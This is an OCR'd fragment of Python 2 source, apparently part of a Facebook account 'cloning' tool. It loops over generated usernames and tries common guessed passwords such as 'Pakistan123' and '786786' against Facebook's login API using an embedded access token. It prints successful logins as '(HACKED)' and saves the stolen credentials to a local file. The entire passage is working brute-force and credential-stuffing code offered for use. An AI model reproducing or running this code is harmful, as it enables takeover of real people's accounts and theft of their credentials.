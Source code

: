                     cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;91m(HACKED)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;93m(ERROR) ' + k + c + user + '  |  ' + pass2
                            cps = open('sae/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;91m(HACKED)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;93m(ERROR) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="PUKHTOON"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;91m(HACKED)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;93m(ERROR) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"